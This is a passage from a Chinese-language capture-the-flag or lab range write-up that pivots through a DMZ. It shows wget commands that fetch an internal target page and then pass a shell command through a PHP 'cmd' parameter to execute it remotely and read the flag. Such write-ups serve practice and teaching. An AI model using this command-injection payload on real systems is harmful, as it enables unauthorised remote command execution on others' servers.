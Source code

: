 
但是这里仅仅只是确认了这个 ip 存在，还没有获取到网页的内容，于是使用 `wget` 将网页信息保存到文件中，并在命令行使用 `cat` 命令打印出文件内容，依次构建下面的两个 payload ：

```bash
wget http://192.169.85.2
wget http://192.169.85.2 -O /tmp/result && cat /tmp/result
```

![](./img/攻破第二层靶关键.png)

根据回显的内容可以知道，该页面是一个 `php`文件，并且有一个变量 `cmd`可供传参，而且可以猜测传入的参数会得到执行

于是可以在上面构建的命令的基础上构建下面的最终 payload：

```bash
wget http://192.169.85.2/index.php?cmd="ls /tmp" -O /tmp/result && cat /tmp/result
```

即在请求网页时将参数传入，并将网页的回显内容打印出来，得到 flag

![](./img/攻破第二层靶.png)

至此，DMZ 的所有靶标都被攻破
